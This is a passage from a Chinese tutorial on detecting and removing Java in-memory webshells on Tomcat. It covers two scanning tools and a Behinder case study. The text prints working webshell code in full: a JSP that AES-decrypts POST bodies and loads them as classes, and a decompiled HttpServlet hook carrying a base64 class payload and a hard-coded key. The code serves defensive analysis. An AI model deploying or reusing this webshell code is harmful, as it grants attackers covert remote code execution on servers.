
                }
        return c.doFinal(decodebs);
    }
%>
<%!
    // 特征：自定义 ClassLoader，用于加载恶意类
    class U extends ClassLoader{
        U(ClassLoader c){super(c);}
        public Class g(byte []b){
            return super.defineClass(b,0,b.length);
        }
    }
%>
<%
    // 特征：接收 POST 请求，执行恶意代码
    if (request.getMethod().equals("POST")){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        byte[] buf = new byte[512];
        int length=request.getInputStream().read(buf);
        while (length>0)
        {
            byte[] data= Arrays.copyOfRange(buf,0,length);
            bos.write(data);
            length=request.getInputStream().read(buf);
        }
        /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
        out.clear();
        out=pageContext.pushBody();
        */
        out.clear();
        out=pageContext.pushBody();
        // 特征：解密请求体数据，加载并实例化恶意类，执行恶意代码
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);
    }
%>

```

## 2. 内存马查杀



### 2.1 基于 Java Agent 技术的内存马查杀工具

前面已经提到了java agent可以动态的修改字节码用来动态注册内存马，当然也可以用该技术处理内存马。

#### 2.1.1 工具一：通过 JSP 脚本扫描 Java Web Filter/Servlet/Listener 类型内存马

* **工具地址：** [通过jsp脚本扫描java web Filter/Servlet/Listner类型内存马]([https://github.com/c0ny1/java-memshell-scanner)
* **原理：** 该工具通过 JSP 脚本实现，利用反射机制遍历 Tomcat 容器中的 Filter、Servlet 和 Listener，并检查它们的 ClassLoader 是否与正常的 ClassLoader 一致。如果 ClassLoader 不一致，则可能存在内存马。
* **使用方法：**

  1. 下载项目中的 tomcat-memshell-scanner.jsp 文件。
  2. 将 tomcat-memshell-scanner.jsp 文件上传到目标 Tomcat 服务器的 Web 应用目录下。
  3. 通过浏览器访问 tomcat-memshell-scanner.jsp 文件，例如：<http://127.0.0.1:8088/FilterShell_war_exploded/tomcat-memshell-scanner.jsp。>

  
* **优点：** 轻量级，无需安装额外软件，使用方便快捷。
* **缺点：** 功能相对简单，只能检测 Filter、Servlet 和 Listener 类型的内存马，无法检测其他类型的内存马，例如通过 Java Agent 技术注入的内存马。

#### 2.1.2 工具二：Shell-Analyzer（GUI 界面）

* **工具地址：** [JAVA AGENT 查杀内存马，提供简易方便的 GUI 界面，一键反编译目标环境内存马进行分析，支持远程查杀和本地查杀](https://github.com/4ra1n/shell-analyzer)
* **原理：** 该工具通过 Java Agent 技术 attach 到目标 JVM 进程，然后遍历 JVM 中加载的所有 Class，并根据预定义的规则进行匹配，从而识别出潜在的内存马。同时，该工具还提供了 GUI 界面，方便用户查看和分析内存马信息，并支持一键反编译内存马 Class 文件。
* **使用方法：**

  1. **获取目标 JVM 进程 PID：** 使用 ps -aux | grep "java" 命令找到 Web Tomcat 服务 Java 进程的 PID。

     
  2. **启动远程服务端：** 下载 remote-0.1.jar，然后使用以下命令启动远程服务端。需要注意的是，**Java 和 Tomcat 启动的版本必须一致，执行命令的用户和 Tomcat 服务的权限必须一致。**

     ```
     sudo -u www /usr/bin/jdk1.8.0_101/bin/java -cp /usr/bin/jdk1.8.0_101/lib/tools.jar:./remote-0.1.jar com.n1ar4.RemoteLoader <PID> <密钥>
     # 示例
     sudo -u www /usr/bin/jdk1.8.0_101/bin/java -cp /usr/bin/jdk1.8.0_101/lib/tools.jar:./remote-0.1.jar com.n1ar4.RemoteLoader 1880409 8hqdvctT

     ```

     
  3. **启动本地客户端：** 下载 gui-0.1.jar，然后使用以下命令启动本地客户端。

     ```
     java -jar gui-0.1.jar

     ```

     在客户端界面中添加连接密钥和服务器 IP 地址，并确保服务器防火墙已放行 10032 端口。

     

* **优点：** 支持多种类型的内存马检测，提供 GUI 界面，操作方便，支持远程查杀和本地查杀，可以反编译内存马 Class 文件进行分析。
* **缺点：** 对目标环境有一定要求，需要开放服务器端口。

| 工具名称 | 工具地址 | 原理 | 优点 | 缺点 | 适用场景 |
| --- | --- | --- | --- | --- | --- |
| java-memshell-scanner | [https://github.com/c0ny1/java-memshell-scanner](github.com/4ra1n/shell-analyzer) | 通过 JSP 脚本遍历 Tomcat 容器中的 Filter/Servlet/Listener，检查 ClassLoader 是否一致。 | 轻量级，无需安装额外软件，使用方便快捷。 | 功能相对简单，只能检测 Filter/Servlet/Listener 类型的内存马，无法检测其他类型的内存马。 | 快速检测 Filter/Servlet/Listener 类型的内存马。 |
| shell-analyzer | <https://github.com/4ra1n/shell-analyzer> | 通过 Java Agent 技术 attach 到目标 JVM 进程，遍历所有 Class，并根据预定义规则进行匹配，识别潜在的内存马。 | 功能强大，支持多种类型的内存马检测，提供 GUI 界面，操作方便，支持远程查杀和本地查杀，可以反编译内存马 Class 文件进行分析。 | 需要安装 Java Agent，对目标环境有一定要求，需要开放服务器端口。 | 精准检测多种类型的内存马，包括 Filter/Servlet/Listener、Java Agent 注入、Valve 等。 |

### 2.2 内存马查杀案例：以冰蝎 Webshell 内存马为例

冰蝎是一款常用的 Webshell 管理工具，它可以通过 Java Agent 技术注入内存马。下面以冰蝎为例，演示如何使用 Shell-Analyzer 工具查杀内存马。

#### 2.2.1 冰蝎注入内存马

使用冰蝎工具连接目标服务器，并注入内存马。



注入后，查看 Tomcat 日志，发现 /memshell 路由存在异常。



#### 2.2.2 使用 Shell-Analyzer 定位内存马

使用 Shell-Analyzer 连接到目标 JVM 进程，刷新后可以看到可疑的内存马。定位到 javax/servlet/http/HttpServlet 类和 service 方法。

```
public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
      HttpServletRequest request = req;
      ServletResponse response = res;
      HttpSession e = request.getSession();
      String var6 = "/memshell";
      if (request.getRequestURI().matches(var6)) {
         HashMap var7 = new HashMap();
         var7.put("request", request);
         var7.put("response", response);
         var7.put("session", e);
         ClassLoader var8 = this.getClass().getClassLoader();
         if (request.getMethod().equals("POST")) {
            try {
               String var9 = "yv66vgAAADIAXAoACwApCAAqCgAJACsIACwKAAkALQoALgAvCgALADAIADEHADIHADMHADQHADUIADYKAAkANwgAOAcAOQoAEAA6CAA7CAA8CgA9AD4HAD8KABAAQAgAQQoAFQBCCgA9AEMKAD0ARAcARQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAdEZWNyeXB0AQAGKFtCKVtCAQANU3RhY2tNYXBUYWJsZQcANQcAMgEACkV4Y2VwdGlvbnMHAEYBAApTb3VyY2VGaWxlAQAKTG9jYWwuamF2YQwAHAAdAQAQamF2YS51dGlsLkJhc2U2NAwARwBIAQAKZ2V0RGVjb2RlcgwASQBKBwBLDABMAE0MAE4ATwEABmRlY29kZQEAD2phdmEvbGFuZy9DbGFzcwEAAltCAQAQamF2YS9sYW5nL09iamVjdAEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uAQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcgwAUABRAQAMZGVjb2RlQnVmZmVyAQAQamF2YS9sYW5nL1N0cmluZwwAHABSAQAQZTQ1ZTMyOWZlYjVkOTI1YgEAFEFFUy9FQ0IvUEtDUzVQYWRkaW5nBwBTDABUAFUBAB9qYXZheC9jcnlwdG8vc3BlYy9TZWNyZXRLZXlTcGVjDABWAFcBAANBRVMMABwAWAwAWQBaDABbACEBAAVMb2NhbAEAE2phdmEvbGFuZy9FeGNlcHRpb24BAAdmb3JOYW1lAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBAAtuZXdJbnN0YW5jZQEAFCgpTGphdmEvbGFuZy9PYmplY3Q7AQAFKFtCKVYBABNqYXZheC9jcnlwdG8vQ2lwaGVyAQALZ2V0SW5zdGFuY2UBACkoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZheC9jcnlwdG8vQ2lwaGVyOwEACGdldEJ5dGVzAQAEKClbQgEAFyhbQkxqYXZhL2xhbmcvU3RyaW5nOylWAQAEaW5pdAEAFyhJTGphdmEvc2VjdXJpdHkvS2V5OylWAQAHZG9GaW5hbAAhABsACwAAAAAAAgABABwAHQABAB4AAAAdAAEAAQAAAAUqtwABsQAAAAEAHwAAAAYAAQAAAAEAAgAgACEAAgAeAAAA9AAIAAUAAACaEgK4AANNLBIEAbYABSwBtgAGTi22AAcSCAS9AAlZAxIKU7YABS0EvQALWQMrU7YABsAACsAACkynAD5OEg24AANNLLYADjoEGQS2AAcSDwS9AAlZAxIQU7YABRkEBL0AC1kDuwAQWSu3ABFTtgAGwAAKwAAKTBISThITuAAUOgQZBAW7ABVZLbYAFhIXtwAYtgAZGQQrtgAasAABAAAAOAA7AAwAAgAfAAAALgALAAAABgAGAAcAEwAIADgAEAA7AAoAPAAMAEIADQBIAA4AdgARAHkAFACTABUAIgAAAAwAAnsHACP8ADoHACQAJQAAAAQAAQAmAAEAJwAAAAIAKA==";
               String var10 = "Decrypt";
               ByteArrayOutputStream var12 = new ByteArrayOutputStream();
               byte[] var13 = new byte[1024];
               ServletInputStream var14 = request.getInputStream();

               for(int var15 = var14.read(var13); var15 > 0; var15 = var14.read(var13)) {
                  var12.write(var13, 0, var15);
               }

               var12.close();
               byte[] var16 = var12.toByteArray();

               byte[] var11;
               try {
                  Class var17 = var8.loadClass("sun.misc.BASE64Decoder");
                  Object var18 = var17.newInstance();
                  var11 = (byte[])var18.getClass().getMethod("decodeBuffer", String.class).invoke(var18, var9);
               } catch (Throwable var30) {
                  Class var20 = var8.loadClass("java.util.Base64");
                  Object var21 = var20.getDeclaredMethod("getDecoder").invoke(null);
                  var11 = (byte[])var21.getClass().getMethod("decode", String.class).invoke(var21, var9);
               }

               Method var22 = ClassLoader.class.getDeclaredMethod("defineClass", String.class, ByteBuffer.class, ProtectionDomain.class);
               var22.setAccessible(true);
               Constructor var23 = SecureClassLoader.class.getDeclaredConstructor(ClassLoader.class);
               var23.setAccessible(true);
               ClassLoader var24 = (ClassLoader)var23.newInstance(var8);
               Class var25 = (Class)var22.invoke((Object)var24, null, ByteBuffer.wrap(var11), null);
               Method var26 = var25.getDeclaredMethod(var10, byte[].class);
               var26.setAccessible(true);
               byte[] var27 = (byte[])var26.invoke(var25.newInstance(), var16);
               Class var28 = (Class)var22.invoke((Object)var24, null, ByteBuffer.wrap(var27), null);
               var28.newInstance().equals(var7);
            } catch (Exception var32) {
               var32.printStackTrace();
            } catch (Error var33) {
               var33.printStackTrace();
            }

            return;
         }
      }

      try {
         request = (HttpServletRequest)req;
         response = (HttpServletResponse)res;
      } catch (ClassCastException var31) {
         throw new ServletException(lStrings.getString("http.non_http"));
      }

      this.service(request, response);
   }
}

```



传输数据的加解密在 org.apache.jsp.aes\_jsp 类中的 Decrypt 方法中实现：

```
private byte[] Decrypt(byte[] data) throws Exception {
      String k = "e45e329feb5d925b"; // AES 密钥
      Cipher c = Cipher.getInstance("AES/ECB/PKCS5Padding"); // AES 加密算法
      c.init(2, new SecretKeySpec(k.getBytes(), "AES"));

      byte[] decodebs;
      try {
         Class baseCls = Class.forName("java.util.Base64");
         Object Decoder = baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
         decodebs = (byte[])Decoder.getClass().getMethod("decode", byte[].class).invoke(Decoder, data);
      } catch (Throwable var7) {
         System.out.println("444444");
         Class baseClsx = Class.forName("sun.misc.BASE64Decoder");
         Object Decoderx = baseClsx.newInstance();
         decodebs = (byte[])Decoderx.getClass().getMethod("decodeBuffer", String.class).invoke(Decoderx, new String(data));
      }

      return c.doFinal(decodebs);
   }

```

#### 2.2.3 删除内存马

使用 Shell-Analyzer 工具删除内存马。



#### 2.2.4 验证查杀结果

再次尝试连接冰蝎，连接失败，说明内存马已被成功查杀。

### 2.3 Value 类型的内存马查杀

除了 Filter/Servlet/Listener 和 Java Agent 注入的内存马，还有一些内存马会修改 Web 容器的配置，例如 Tomcat 的 Valve。这类内存马的查杀方式与其他类型的内存马类似，可以使用 Shell-Analyzer 等工具进行检测和查杀。


